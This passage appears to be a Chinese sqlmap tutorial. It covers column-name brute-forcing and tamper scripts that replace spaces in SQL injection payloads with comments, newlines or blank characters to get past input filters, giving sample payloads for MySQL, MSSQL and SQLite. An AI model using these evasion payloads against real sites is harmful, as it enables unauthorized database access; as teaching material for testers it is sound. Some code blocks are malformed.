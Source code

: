 **暴力破解列名**

参数：`–common-columns`

与暴力破解表名一样，暴力跑的列名在`txt/common-columns.txt`中。

[![img](https://i.imgur.com/FXvmmee.png)](https://i.imgur.com/FXvmmee.png)

可以选择多线程来尝试破解。

#### 针对过滤空格的

**1:space2dash.py**

作用：用”– 随机字符串%0A” 替换原来的空格

示例：

```
'1 AND 9227=9227'
'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'
```

原理是–n是注释，后面内容不生效，%0A为换行符，这样就可以不使用空格分隔了。

在以下版本做过测试:

```
MSSQL
SQLite
```

**2:space2hash.py**

作用：空格替换为#号 随机字符串 以及换行符

示例：

```
1 AND 9227=9227
2 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
```

版本要求:

```
MySQL
在以下版本做过测试:
MySQL 4.0, 5.0
```

**3: space2morehash.py**

作用：空格替换为 #号 以及更多随机字符串 换行符（和上一条原理一致）

示例：

```
1 AND 9227=9227 
1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
​``` 
版本要求: 
* MySQL >= 5.1.13 Tested
针对此做过测试: 
* MySQL 5.1.41
#### space2mssqlblank.py
作用：空格替换为其它空符号
示例：
​```sql
SELECT id FROM users 
SELECT%08id%02FROM%0Fusers
```
